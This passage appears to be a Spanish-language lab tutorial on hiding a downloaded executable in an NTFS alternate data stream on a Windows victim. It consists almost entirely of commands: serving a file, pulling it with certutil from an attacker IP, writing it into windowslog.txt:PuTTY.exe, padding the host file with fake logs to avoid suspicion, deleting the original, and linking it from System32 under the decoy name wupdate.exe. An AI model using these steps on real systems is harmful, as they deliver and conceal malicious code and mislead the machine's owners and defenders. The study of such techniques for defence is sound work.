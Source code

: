 ```shell
python3 -m http.server 80
```

Dentro de la maquina victima windows, haremos lo siguiente (Aqui estamos simulando que un usuario se descarga una palicacion o apk maliciosa sin que el mismo lo sepa desde internet).

```shell
certutil -urlcache -f http://<IP>/PuTTY.exe payload.exe
```

Moveremos el archivo legitimo a la carpeta `Temp/` (Esto para que sea mas limpio todo, pero se podra dejar en el mismo escritorio si lo desea).

```shell
move payload.exe C:\Temp\
```

(Si no tenemos la carpeta la creamos.)

```shell
mkdir C:\Temp\
```

```shell
cd C:\Temp\
```

Una vez dentro de la carpeta con el archivo (Esto se puede configurar para que cuando habra el archivo se cree todo esto con un script en el archivo oculto, asi seria mas realista).

```shell
type payload.exe > windowslog.txt:PuTTY.exe
```

Ahora lo que haria un atacante sera meter informacion legitima y real dentro del archivo de `windowslog.txt` para no levantar sospechas.

```shell
notepad windowslog.txt
```

Y dentro se meteran los logs o informacion para que no sea cantoso.

Ahora podremos eliminar el archivo `payload.exe`.

```shell
del payload.exe
```

Ahora para que funcione el ejecutable craeremos un enlace simbolico a el en el sistema de la siguiente forma.

```shell
cd Windows\System32
```

Crearemos un link llamado `wupdate.exe` para que parezca que es un registro de las actualizaciones de windows.

```shell
mklink wupdate.exe C:\Temp\windowslog.txt:PuTTY.exe
```

